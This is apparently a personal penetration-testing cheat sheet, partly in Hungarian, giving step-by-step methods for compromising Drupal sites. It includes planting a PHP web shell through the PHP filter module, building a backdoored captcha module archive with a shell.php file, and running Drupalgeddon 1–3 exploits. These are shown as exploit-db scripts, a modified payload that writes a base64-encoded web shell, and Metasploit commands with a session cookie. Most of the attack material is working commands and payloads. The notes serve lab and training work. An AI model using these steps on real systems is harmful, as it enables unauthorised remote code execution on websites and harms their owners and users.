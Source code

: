 # drupal
## scanning
sudo pip3 install droopescan  
droopescan scan drupal -u http://10.10.10.1/  
## exploiting
nehezebb tema mint a wordpress vagy joomla eseteben
### leveraging the php filter module
#### new versions than 8 need the installation of the module as well (before version 8 it has to be skipped)
* wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
* nem kell kicsomagolni
* login as admin
* go to Administration / Reports / Available updates (maybe under the Extend menu instead)
* 'Upload a module or theme archive to install'
* talozzuk ki a letoltott archive file-t
* install
* !!!!!! extra info !!!!!!
  * lehetseges, hogy kulon az extension-nel be kell pipalni az update managert hogy az is hozza legyen adva !!!
  * php filter-t is ki kell lehet pipalni
#### older Drupal versions contains the module by default - before 8
* login as admin
* 1
  * choose modules
  * enable 'php filter'
  * save configuration (lent)
* 2
  * go to Content / Add content
  * create basic page
  * insert web shell script like: <?php system($_GET['cmd']); ?>
  * text format -> php code
  * save
* 3
  * we will be redirected to the new page like: http://10.10.10.1/node/3
  * append web shell param, and call it
    * curl -s http://10.10.10.1/node/3?cmd=id
### uploading a backdoored module
* login as admin (or some similar high priv user) (dont know which can be fine....)
* download a standard module from official repo
* e.g.
  * wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
* tar xvf captcha-8.x-1.2.tar.gz
* create new file with web shell content like shell.php: <?php system($_GET['cmd']); ?>
* create a .htaccess file with below content
<pre>
 <IfModule mode_rewrite.c>
  RewriteEngine On
  RewriteBase /
 </IfModule>
</pre>
* mov these two files (shell.php, .htaccess) into the module folder and zip it back
  * mv shell.php .htaccess captcha
  * tar cvf captcha.tar.gz captcha/
* click 'Manage' / 'Extend' / + Install new module
* you are on the install page, like:   http://10.10.10.1/admin/modules/install
* browse local archive file, click Install
* run rce
  * curl -s http://10.10.10.1/modules/captcha/shell.php?cmd=id
### Known vulnerabilities (Drupalgeddon 1 - 3)
#### info
##### Drupalgeddon 1
CVE-2014-3704, known as Drupalgeddon, affects versions 7.0 up to 7.31 and was fixed in version 7.32. This was a pre-authenticated SQL injection flaw that could be used to upload a malicious form or create a new admin user.
##### Drupalgeddon 2
CVE-2018-7600, also known as Drupalgeddon2, is a remote code execution vulnerability, which affects versions of Drupal prior to 7.58 and 8.5.1. The vulnerability occurs due to insufficient input sanitization during user registration, allowing system-level commands to be maliciously injected.
##### Drupalgeddon 3
CVE-2018-7602, also known as Drupalgeddon3, is a remote code execution vulnerability that affects multiple versions of Drupal 7.x and 8.x. This flaw exploits improper validation in the Form API.
#### exploitation
##### Drupalgeddon 1 (Drupal 7.0 - 7.31)
###### manual
https://www.exploit-db.com/exploits/34992  
python2.7 drupalgeddon.py -t http://10.10.10.1/ -u peter -p pass123  
###### metasploit
msf> exploit/multi/http/drupal_drupageddon/  
##### Drupalgeddon 2 (Drupal 7.58 - 8.5.1)
https://www.exploit-db.com/exploits/44448  
python3 drupalgeddon.py  
feltolt egy hello.txt fajlt egy kacsinto smileyval  
szerkesszuk at a scriptet a 'payload'-os sornal  
irjuk bele base64 encode-olva a web shell-t ami utana decode-olunk  
fontos hogy a kiterjesztes php legyen  
pl igy...  
<pre>
payload = {'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': 'echo "PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7Pz4K" | base64 -d | tee hello.php'}
</pre>
aztan curl
curl -s http://10.10.10.1/hello.php?cmd=id
##### Drupalgeddon 3 (multiple versions)
It requires a user to have the ability to delete a node.  
We can exploit this using Metasploit, but we must first log in and obtain a valid session cookie.  
###### metasploit
msf6 exploit(multi/http/drupal_drupageddon3) > set rhosts 10.129.42.195  
msf6 exploit(multi/http/drupal_drupageddon3) > set VHOST drupal-acc.inlanefreight.local  
msf6 exploit(multi/http/drupal_drupageddon3) > set drupal_session SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y  
msf6 exploit(multi/http/drupal_drupageddon3) > set DRUPAL_NODE 1  
msf6 exploit(multi/http/drupal_drupageddon3) > set LHOST 10.10.14.15  
msf6 exploit(multi/http/drupal_drupageddon3) > run  
